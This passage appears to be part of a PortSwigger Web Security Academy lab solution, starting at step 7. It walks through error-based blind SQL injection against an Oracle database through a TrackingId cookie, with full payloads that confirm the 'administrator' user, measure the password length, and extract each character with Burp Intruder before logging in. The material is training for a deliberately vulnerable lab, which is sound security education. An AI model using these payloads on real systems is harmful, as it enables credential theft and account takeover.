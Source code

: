 7.  You can also exploit this behavior to test conditions. First, submit the following query: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`. Verify that an error message is received.
8.  Now change it to: `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`. Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and an error is received when the condition is `true`.
9.  You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username `administrator` exists: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.
10.  The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to: `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This condition should be true, confirming that the password is greater than 1 character in length.
11.  Send a series of follow-up values to test different password lengths. Send: `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Then send: `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.
12.  After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
13.  In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
14.  In the Positions tab, change the value of the cookie to: `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
15.  Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
16.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
17.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
18.  Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.
19.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
20.  Launch the modified attack, review the results, and note the character at the second offset.
21.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
22.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.
